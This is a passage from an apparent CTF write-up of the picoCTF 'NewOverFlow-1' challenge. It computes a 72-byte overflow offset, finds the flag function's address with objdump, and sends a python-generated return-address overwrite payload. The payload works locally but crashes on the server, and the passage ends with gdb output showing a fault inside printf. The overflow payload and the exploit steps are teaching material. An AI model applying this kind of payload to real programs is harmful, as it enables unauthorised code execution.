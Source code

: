 We search for the faulting address in our cyclic sequence to get the overflow offset:
```console
root@kali:/media/sf_CTFs/pico/NewOverFlow-1# cyclic -n 8 -l 0x616161616161616a
72
```

We check what `flag`'s address is:
```console
root@kali:/media/sf_CTFs/pico/NewOverFlow-1# objdump -D ./vuln | grep "<flag>"
0000000000400767 <flag>:
```

And we perform the overflow:
```console
root@kali:/media/sf_CTFs/pico/NewOverFlow-1# python -c "print 'A'*72 + '\x67\x07\x40\x00\x00\x00\x00\x00'" | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag:
picoCTF{local_fake_flag}
Segmentation fault (core dumped)
```

This works great locally (buffer overflow 101, they promised to "start easy"). However, if we run this on the server, we get a different response:
```console
dvdalt@pico-2019-shell1:/problems/newoverflow-1_6_9968801986a228beb88aaad605c8d51a$ python -c "print 'A'*72 + '\x67\x07\x40\x00\x00\x00\x00\x00'" | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag:
Segmentation fault (core dumped)
```

We just get a segmentation fault - no flag!

Let's try to debug (we have to create a fake flag file since debugging a `setuid` program removes the extra permissions due to obvious reasons).

```
dvdalt@pico-2019-shell1:/problems/newoverflow-1_6_9968801986a228beb88aaad605c8d51a$ cd ~
dvdalt@pico-2019-shell1:~$ echo picoCTF{fake_remote_flag} > flag.txt
dvdalt@pico-2019-shell1:~$ gdb /problems/newoverflow-1_6_9968801986a228beb88aaad605c8d51a/vuln
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /problems/newoverflow-1_6_9968801986a228beb88aaad605c8d51a/vuln...(no debugging symbols found)...done.
(gdb) r <<< $( python -c "print 'A'*72 + '\x67\x07\x40\x00\x00\x00\x00\x00'")
Starting program: /problems/newoverflow-1_6_9968801986a228beb88aaad605c8d51a/vuln <<< $( python -c "print 'A'*72 + '\x67\x07\x40\x00\x00\x00\x00\x00'")
/bin/bash: warning: command substitution: ignored null byte in input
Welcome to 64-bit. Give me a string that gets you the flag:

Program received signal SIGSEGV, Segmentation fault.
buffered_vfprintf (s=s@entry=0x7f73768f7760 <_IO_2_1_stdout_>, format=format@entry=0x7fff815cbc28 "picoCTF{fake_remote_flag}\n", args=args@entry=0x7fff815cbb48) at vfprintf.c:2314
2314    vfprintf.c: No such file or directory.
```
Looks like we hit an exception in `printf`, while attempting to print the flag.
